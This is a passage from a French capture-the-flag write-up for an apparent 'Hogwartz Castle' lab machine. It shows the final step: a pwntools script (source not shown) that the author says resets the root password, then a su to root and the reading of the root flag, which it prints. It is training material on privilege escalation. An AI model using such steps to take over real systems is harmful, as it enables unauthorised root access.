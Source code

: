 Notre scripte va changer le mot de passe de root par le mot de passe root.   

```bash
hermonine@hogwartz-castle:/tmp$ python3 /home/hermonine/2time.py 
b'Guess my number: Nice use of the time-turner!\n'
Traceback (most recent call last):
  File "/home/hermonine/2time.py", line 18, in <module>
    print(p.readline())
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 1405, in wrapper
    return func(self, *a, **kw)
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 467, in recvline
    return self.recvuntil(self.newline, drop = not keepends, timeout = timeout)
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 310, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 82, in recv
    return self._recv(numb, timeout) or b''
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 160, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/tube.py", line 131, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/process.py", line 716, in recv_raw
    raise EOFError
EOFError

hermonine@hogwartz-castle:/tmp$ su
Password: 
root@hogwartz-castle:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

root@hogwartz-castle:/tmp# cat /root/root.txt 
RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```

On exécute le scripte poour qu'il change le mot de passe.  
Une foit le mot de passe changé on se connecte en root.   
On lit le fichier root.txt dans le répertoire root.  

La flag est : RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}  
